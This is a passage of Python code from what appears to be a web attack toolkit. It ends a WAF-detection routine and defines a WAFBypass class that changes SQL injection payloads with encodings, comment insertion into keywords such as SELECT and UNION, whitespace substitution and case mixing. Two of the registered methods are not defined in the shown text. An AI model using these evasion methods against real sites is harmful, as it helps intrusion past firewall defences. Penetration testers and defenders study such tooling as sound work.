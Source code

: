 ```python
                    break

        # Check status codes (403, 406 common with WAFs)
        if response.status_code in [403, 406, 419, 420]:
            if not waf_detected:
                waf_detected.append('Unknown WAF')

        return list(set(waf_detected))
```

#### B. WAF Bypass Techniques

```python
class WAFBypass:
    """Bypass techniques for various WAFs"""

    def __init__(self):
        self.techniques = {
            'encoding': self._encoding_bypass,
            'fragmentation': self._fragmentation_bypass,
            'case_variation': self._case_variation,
            'comment_injection': self._comment_injection,
            'null_byte': self._null_byte_bypass,
            'unicode': self._unicode_bypass
        }

    def _encoding_bypass(self, payload):
        """URL encoding variants"""
        import urllib.parse
        return [
            urllib.parse.quote(payload),  # Standard encoding
            urllib.parse.quote(payload).replace('%20', '+'),  # Space as +
            ''.join(['%' + hex(ord(c))[2:] for c in payload]),  # Double encoding
            urllib.parse.quote(urllib.parse.quote(payload))  # Double URL encode
        ]

    def _fragmentation_bypass(self, payload):
        """Break payload into fragments"""
        # SQL injection example: UN/**/ION SE/**/LECT
        return [
            payload.replace(' ', '/**/'),
            payload.replace(' ', '%09'),  # Tab
            payload.replace(' ', '%0a'),  # Newline
            payload.replace(' ', '%0d'),  # Carriage return
        ]

    def _case_variation(self, payload):
        """Case mixing to bypass signatures"""
        import random
        variants = []
        for _ in range(5):
            variant = ''.join([c.upper() if random.random() > 0.5 else c.lower() for c in payload])
            variants.append(variant)
        return variants

    def _comment_injection(self, payload):
        """Inject comments between keywords"""
        # Example: SEL/**/ECT, UN/**/ION
        keywords = ['SELECT', 'UNION', 'FROM', 'WHERE', 'AND', 'OR']
        result = payload
        for kw in keywords:
            result = result.replace(kw, kw[:2] + '/**/' + kw[2:])
        return [result]

```